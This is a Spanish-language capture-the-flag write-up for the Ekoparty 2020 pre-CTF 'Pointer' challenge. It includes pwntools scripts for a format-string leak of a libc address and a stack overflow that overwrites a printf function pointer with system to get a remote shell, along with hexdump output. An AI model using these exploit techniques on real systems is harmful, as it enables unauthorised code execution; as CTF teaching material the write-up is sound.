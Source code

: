 # WriteUp reto Pointer (Pwn) – Ekoparty 2020 Pre-ctf
> Autor: [Octavio Gianatiempo](https://twitter.com/ogianatiempo)

Primero veamos que tipo de archivo es con `file`

```
Pointer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32
```

Es un ejecutable de Linux de 64 bits dinámicamente linkeado.
Si lo ejecutamos nos saluda y espera un input que luego imprime.

![terminal](terminal.jpg)

Si lo desensamblamos podemos ver un par de cosas.
En primer lugar reserva espacio en el stack para un buffer de 0x40 bytes y para cuatro variables de 8 bytes cada una.

![disass](disass.jpg)

Un poco más abajo podemos ver que usa esas variables para guardar punteros a las funciones en la PLT y que usa esos punteros para llamarlas. Por ejemplo, acá se ve como llama a `printf` para imprimir "Welcome bro" copiando el puntero a `rax` y luego ejecutando `call rax`.

![disass2](disass2.jpg)

Es así como nos pide el input pasando la dirección del buffer a `gets` y vemos que después usa el mismo puntero como único argumento de `printf`. Por lo tanto podemos hacer un ataque de format string. Pueden ver más sobre esto [acá](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/5-format-string.html), [acá](http://jbremer.org/format-string-vulnerabilities/) o [acá](https://www.youtube.com/watch?v=t1LH9D5cuK4).

![disass3](disass3.jpg)

Hagamos un script para poder realizar el ataque e imprmir la dirección de `gets`. Esta dirección nos va a servir para calcular las posiciones de otras funciones de `libc` que vamos a usar para tomar control remoto. Para esto usamos una libraria de Python que se llama `pwntools`.

```Python
from pwn import *

context.log_level = 'debug'

gets_got = 0x601040

payload = "%7$s    "
payload += p64(gets_got)

p = remote("52.202.106.196", 61338)
p.recvline()
p.sendline(payload)
p.recvall()
```

Vemos que el payload esta compuesto por dos partes. Primero el format string que va imprimir el 7mo argumento como si fuera un puntero a string seguido de un poco de espacio. Segundo una dirección. Como es un ejecutable de 64 bits, `printf` toma los primeros argumentos por registros pero luego empieza a tomar los sucesivos argumentos del stack. Como nuestro buffer está en el stack podemos lograr, jugando con el format string y su largo, que el mismo buffer sea tomado como un argumento. En este caso particular estamos haciendo que tome como argumento la entrada correspondiente a gets en la _Global offset table_ (GOT). Ese séptimo argumento es `0x601040` lo que podemos verificar cambiando `$s` por `$p` para que imprima el argumento como un puntero. Como resultado de todo esto `printf` va a escribir en la terminal el contenido de la entrada de `gets` en la GOT, es decir su dirección en la memoria.

Como las direcciones de memoria no siempre resultan en caracteres imprimibles, activamos el modo debug de `pwntools` para que nos muestre un hexdump de todo lo que envía y recibe. Este es el resultado de ejecutar el script.

```
[+] Opening connection to 52.202.106.196 on port 61338: Done
[DEBUG] Received 0xc bytes:
    'Welcome Bro\n'
[DEBUG] Sent 0x11 bytes:
    00000000  25 37 24 73  20 20 20 20  40 10 60 00  00 00 00 00  │%7$s│    │@·`·│····│
    00000010  0a                                                  │·│
    00000011
[+] Receiving all data: Done (13B)
[DEBUG] Received 0xd bytes:
    00000000  80 bd a7 f7  ff 7f 20 20  20 20 40 10  60           │····│··  │  @·│`│
    0000000d
[*] Closed connection to 52.202.106.196 port 61338
```

Podemos ver que la dirección de `gets` está en los primeros 6 bytes recibidos en formato _little endian_ y es `0x7ffff7a7db80`.

Si ejecutamos el script de nuevo vemos que la dirección no cambia. Esto va a facilitar las cosas porque el espacio de memoria no se está aleatorizando o el programa no se está cargando en memoria de cero cada vez (por ejemplo el servidor podría estar forkeando el proceso nuevo recibiendo una copia del espacio de memoria del proceso padre). Si no fuera así tendríamos que ingeniárnoslas para leakear esa dirección y además que el programa siga ejecutando. Una opción posible es usar el mismo format string para que, además de leakear la dirección, pise la dirección de otra función en la GOT, por ejemplo `exit` (ver formato %n). Si pisáramos esta dirección con la dirección del `main` podemos hacer que el programa se ejecute una y otra vez permitiendo en una ejecución de `main` leakear y en otra explotar el binario sin que el mismo se cierre y se vuelva a aleatorizar el espacio de memoria cambiando las direcciones que ahora conocemos.

Pero bueno, por suerte no hace falta hacer todo esto (aunque es un buen ejercicio) así que aprovechemos esa dirección de `gets` que conocemos para averiguar la dirección de la función que nos gustaría ejecutar. Vamos a ejecutar `system("/bin/sh")` para poder tener una terminal. 

Para eso podemos usar [esta](https://libc.blukat.me/) web o clonarnos [este](https://github.com/niklasb/libc-database) repo.

En la web ingresamos el nombre de la función cuya dirección conocemos y los ultimos 12 bits de su dirección. Esto sirve para tratar de identificar que versión de `libc` está corriendo en el servidor y así poder calcular la dirección de la función `system`. Ingresamos sólo los úlitmos 12 porque cuando se aleatoriza el espacio de memoria en general se hace a nivel de página y entonces estos bits se mantienen constantes.

![libcDB](libcDB.jpg)

Obtenemos dos versiones de `libc` posibles. En este caso funcionó la primera. Vemos que system se encuetnra en la posición  `0x45390` respecto del inicio de `libc` y `gets` en la posición `0x6ed80`. 

![libcDB2](libcDB2.jpg)

Con estos datos ya podemos explotar el binario usando el siguiente script.

```Python
from pwn import *

# context.update(arch='ia64', os='linux')
context.log_level = 'debug'

# Calculamos las direcciones
gets_libc = 0x7ffff7a7bd80

offset_gets = 0x06ed80
offset_system = 0x045390

system_libc = offset_system + (gets_libc-offset_gets)

payload2  = "/bin/sh\00"  # welcome bro pointer
payload2 += "A" * (0x40 - len(payload2)) # padding
payload2 += "B" * 0x8       # pisa fflush
payload2 += "C" * 0x8       # pisa exit
payload2 += "D" * 0x8       # pisa gets
payload2 += p64(system_libc)# pisa printf

p = remote("52.202.106.196", 61338)
p.recvline()
p.sendline(payload2)
p.interactive()
```
Lo que hacemos es calcular la posición en memoria de la función `system` conociendo la posición en memoria de `gets` y los offsets de ambas respecto del inicio de `libc` (`gets_libc - offset_gets` equivale al inicio de `libc` en memoria). Luego aprovechamos que el programa ya hace un llamado a `printf` luego de `gets` de la siguiente forma.

![disass3](disass3.jpg)

Podemos ver que al llamar a `printf` el valor de `rdi`, que contiene el primer argumento, apunta a nuestro buffer. Basta entonces con escribir en nuestro buffer el binario que queremos ejecutar mediante la llamada a `system` y luego pisar el puntero a `printf` con el puntero a `system` en `libc` que acabamos de calcular. Al ejecutar este script obtendremos una shell remota y podemos imprimir el valor de la flag.

```
[+] Opening connection to 52.202.106.196 on port 61338: Done
[DEBUG] Received 0xc bytes:
    'Welcome Bro\n'
[DEBUG] Sent 0x61 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  41 41 41 41  41 41 41 41  │/bin│/sh·│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  42 42 42 42  42 42 42 42  43 43 43 43  43 43 43 43  │BBBB│BBBB│CCCC│CCCC│
    00000050  44 44 44 44  44 44 44 44  90 23 a5 f7  ff 7f 00 00  │DDDD│DDDD│·#··│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x1e bytes:
    'EKO{AreYouReadyFor#Pwndemic?}\n'
EKO{AreYouReadyFor#Pwndemic?}
```
